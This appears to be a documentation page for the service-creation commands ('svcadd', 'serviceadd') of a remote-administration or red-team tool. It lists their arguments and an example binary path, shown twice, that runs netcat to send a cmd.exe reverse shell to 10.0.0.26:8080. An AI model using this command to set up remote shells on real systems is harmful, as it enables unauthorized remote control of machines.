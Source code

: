 **Example Usage:**
```
Example Usage: -b "C:\nc.exe 10.0.0.26 8080 -e cmd.exe"
```

### Arguments

- **`servicename`**: Specify the name of the new service
  - Required: Yes

- **`binarypath`**: Specify the binary path of the new service
  - Required: Yes

- **`displayname`**: Specify the display name of the new service
  - Required: Yes

- **`starttype`**: Specify the start type of the new service
  - Choices: auto, demand, system
  - Default: `demand`
  - Required: Yes

---

## `svcadd`

**Description:** Create a new service on the remote server

**Help:**
```
serviceadd [-h] -n SERVICENAME -b BINARYPATH -d DISPLAYNAME -s {auto,demand,system}
Create a new service on the remote server
```

**Example Usage:**
```
Example Usage: -b "C:\nc.exe 10.0.0.26 8080 -e cmd.exe"
```

### Arguments

- **`servicename`**: Specify the name of the new service
  - Required: Yes

- **`binarypath`**: Specify the binary path of the new service
  - Required: Yes

- **`displayname`**: Specify the display name of the new service
  - Required: Yes

- **`starttype`**: Specify the start type of the new service
  - Choices: auto, demand, system
  - Default: `demand`
  - Required: Yes

---

## `servicecreate`
